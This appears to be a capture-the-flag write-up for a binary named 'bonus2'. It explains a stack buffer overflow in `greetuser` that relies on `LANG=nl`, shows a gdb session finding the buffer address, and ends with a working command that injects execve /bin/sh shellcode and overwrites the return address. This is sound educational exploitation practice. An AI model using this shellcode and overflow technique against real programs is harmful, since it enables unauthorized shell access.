 ### Exploit
Here we need to overflow the buffer located in the `greetuser` function.
The buffer in the `main` function is 72 byte long so we can fill it completely.
This buffer is then passed to `greetuser` which will contain a string depending on the `language` variable and the main buffer.
If we don't rewrite the `LANG` env variable the buffer will not overflow enough because the string that will be copied in the buffer is too short.
We need `LANG` to be `nl` so that the string copied in the buffer is long enough so that we can rewrite the return address.

Using the pattern generator with `LANG=nl` we see that the offset needed to rewrite the return address is 23.

```bash
(gdb) disas greetuser
...
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>
   0x0804851c <+152>:	lea    -0x48(%ebp),%eax
...
(gdb) break *0x0804851c
Breakpoint 1 at 0x804851c
(gdb) r test test
Starting program: /home/user/bonus2/bonus2 test test

Breakpoint 1, 0x0804851c in greetuser ()
(gdb) info reg eax
eax            0xbffff630	-1073744336
```

We see that the address of the buffer is `0xbffff630`, we need to add a little offset to not bump into the message copied at the start of the buffer.

### Get access

```bash
export LANG=nl
./bonus2 `python -c "print('\x90' * 40)"` `python -c "print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A'*2 + '\x70\xf6\xff\xbf')"`
```